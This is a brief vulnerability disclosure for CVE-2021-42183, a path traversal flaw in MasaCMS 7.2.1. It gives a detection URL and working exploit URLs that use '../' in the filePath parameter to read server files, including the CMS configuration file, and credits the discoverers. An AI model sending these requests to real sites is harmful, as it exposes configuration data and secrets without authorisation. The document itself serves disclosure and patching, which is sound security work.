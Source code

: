 # CVE-2021-42183

MasaCMS 7.2.1 is affected by a path traversal vulnerability in /index.cfm/_api/asset/image/.

# Detection

```
If this file is readable it means the vulnerablilty exists.
https://example.com/index.cfm/_api/asset/image/?filePath=/Application.cfc
```


# Exploit

```
https://example.com/index.cfm/_api/asset/image/?filePath=/../<Path>
- Read The Config File
https://example.com/index.cfm/_api/asset/image/?filePath=/../config/settings.ini.cfm 
```

## Tested On 
MasaCMS 7.2.1

## Vendor

http://www.masacms.com

https://github.com/MasaCMS/MasaCMS
https://github.com/MasaCMS/MasaCMS/blob/01e0636db0ea4c132906724e1b0772c86e263ada/core/mura/content/file/fileManager.cfc#L368


## Discoverd By:

Rawi And BassamAssiri.
